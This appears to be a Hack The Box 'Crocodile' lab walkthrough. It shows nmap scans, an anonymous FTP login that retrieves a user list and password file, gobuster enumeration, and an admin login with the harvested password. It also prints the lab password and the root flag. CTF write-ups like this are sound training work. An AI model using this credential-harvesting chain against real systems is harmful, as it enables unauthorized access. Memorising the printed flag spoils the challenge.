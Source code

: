 # Crocodile

> What nmap scanning switch employs the use of default scripts during a scan? 

#### -sC

---

> What service version is found to be running on port 21? 

```console
~$ nmap -sV -p 21 10.129.71.16
Starting Nmap 7.80 ( https://nmap.org ) at 2021-11-12 20:44 CET
Nmap scan report for 10.129.71.16
Host is up (0.12s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
Service Info: OS: Unix
```

#### vsftpd 3.0.3

---

> What FTP code is returned to us for the "Anonymous FTP login allowed" message?

```console
$ ftp 10.129.71.16
Connected to 10.129.71.16.
220 (vsFTPd 3.0.3)
Name (10.129.71.16:marco): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>
```

#### 230

---

> What command can we use to download the files we find on the FTP server? 

```console
ftp> pass
Passive mode on.
ftp> dir
227 Entering Passive Mode (10,129,71,16,166,118).
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp            33 Jun 08 10:58 allowed.userlist
-rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd
226 Directory send OK.
ftp> get allowed.userlist
local: allowed.userlist remote: allowed.userlist
227 Entering Passive Mode (10,129,71,16,191,166).
150 Opening BINARY mode data connection for allowed.userlist (33 bytes).
226 Transfer complete.
33 bytes received in 0.11 secs (0.2918 kB/s)
ftp> get allowed.userlist.passwd
local: allowed.userlist.passwd remote: allowed.userlist.passwd
227 Entering Passive Mode (10,129,71,16,166,173).
150 Opening BINARY mode data connection for allowed.userlist.passwd (62 bytes).
226 Transfer complete.
62 bytes received in 0.11 secs (0.5571 kB/s)
ftp> quit
221 Goodbye.
```

#### get

---

> What is one of the higher-privilege sounding usernames in the list we retrieved? 

```console
$ cat allowed.userlist
aron
pwnmeow
egotisticalsw
admin
```

#### admin

---

> What version of Apache HTTP Server is running on the target host? 

```console
$ nmap -sV -p 80 10.129.71.16
Starting Nmap 7.80 ( https://nmap.org ) at 2021-11-12 20:53 CET
Nmap scan report for 10.129.71.16
Host is up (0.12s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
```

#### 2.4.41

---

> What is the name of a handy web site analysis plug-in we can install in our browser? 

#### Wappalyzer

---

> What switch can we use with gobuster to specify we are looking for specific filetypes? 

#### -x

---

> What file have we found that can provide us a foothold on the target?

```console
$ gobuster -x php -u 10.129.71.16 -w /home/marco/Files/common.txt

=====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.129.71.16/
[+] Threads      : 10
[+] Wordlist     : /home/marco/Files/common.txt
[+] Status codes : 200,204,301,302,307,403
[+] Extensions   : php
[+] Timeout      : 10s
=====================================================
2021/11/12 21:01:50 Starting gobuster
=====================================================
/assets (Status: 301)
/config.php (Status: 200)
/css (Status: 301)
/js (Status: 301)
/login.php (Status: 200)
```

#### login.php

---

> Submit root flag 

We can login with `admin` and as password the one taken from the `allowed.userlist.passwd` file `rKXM59ESxesUFHAd`

![](1.png)

#### HTB{c7110277ac44d78b6a9fff2232434d16}